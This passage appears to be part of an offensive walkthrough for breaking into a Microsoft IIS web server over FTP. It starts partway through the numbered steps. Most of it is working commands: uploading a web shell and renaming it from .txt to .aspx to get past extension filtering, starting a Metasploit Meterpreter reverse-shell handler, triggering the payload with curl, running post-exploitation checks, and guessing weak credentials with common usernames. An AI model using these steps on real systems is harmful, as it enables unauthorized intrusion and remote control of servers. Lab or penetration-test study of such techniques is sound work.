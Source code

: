 If upload is blocked by extension filtering, try rename trick:
```bash
ftp -inv $TARGET << 'EOF'
user USER PASS
binary
put shell.txt
quote RNFR shell.txt
quote RNTO shell.aspx
ls
bye
EOF
```

7) Start listener/Metasploit handler:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST $LHOST; set LPORT $LPORT; set ExitOnSession false; exploit -j"
```

8) Trigger payload over HTTP:
```bash
# If FTP mapped to the site's root and HTTP is on 80:
curl -v http://$TARGET/shell.aspx
# Or browse to it in a browser to trigger the callback
```

9) Post-exploitation quick checks (Meterpreter):
```text
# In Meterpreter:
sysinfo
getuid
shell
whoami && hostname && ipconfig
```

10) Cleanup (good hygiene):
```bash
# Delete the uploaded payload when done:
ftp -inv $TARGET << 'EOF'
user USER PASS
delete shell.aspx
bye
EOF
```

## Practical tips
- IIS fingerprint: The FTP banner often says “Microsoft FTP Service”; SYST often returns Windows_NT. The webroot commonly contains iisstart.htm (IIS 7/8 default page).
- Mapping confirmation: If you can see/edit files that appear at http://target/ (e.g., replace iisstart.htm and see changes), you’re in the webroot.
- Binary mode: Always switch FTP to binary before uploading payloads to avoid corruption.
- Passive mode: Use passive mode if behind NAT or if active mode stalls (set ftp:passive-mode on in lftp).
- Extensions: ASPX is more likely enabled on modern IIS than classic ASP; if ASPX fails to execute, try an ASP payload only if the feature is enabled.
- Rename bypass: If direct upload of .aspx is blocked, upload as .txt, then RNFR/RNTO to .aspx.
- Ports and egress: If your callback doesn’t arrive, try common outbound ports (80, 443) for the reverse shell.
- Credentials: IIS FTP commonly uses local Windows or AD accounts; weak passwords are common in labs. Try short userlists like: administrator, iisuser, ftp, web, developer, test.
- Cleanup: Remove uploaded shells and revert any test changes to avoid noisy artifacts.
